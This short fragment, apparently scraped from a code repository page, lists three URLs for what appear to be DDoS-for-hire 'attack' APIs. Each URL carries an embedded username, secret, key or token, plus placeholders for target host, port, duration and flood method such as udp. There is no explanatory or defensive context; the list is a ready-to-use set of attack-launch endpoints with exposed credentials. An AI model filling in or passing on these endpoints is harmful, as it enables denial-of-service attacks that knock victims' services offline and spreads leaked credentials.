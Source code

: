HOLDER

http://api.tcp-connect.xyz/api/attack?username=denial&secret=denialapiong41s1sS1Sxdljeed&host=[host]&port=[port]&time=[time]&method=.home
https://imagine-funneling.xyz/api/attack?token=IqJ1on9X7vwgJgv636H&host=[host]&port=[port]&time=[time]&threads=1&method=udp
http://45.90.12.98:65535/api/attack?username=deni&key=deni123&host=[host]&port=[port]&time=[time]&method=hold
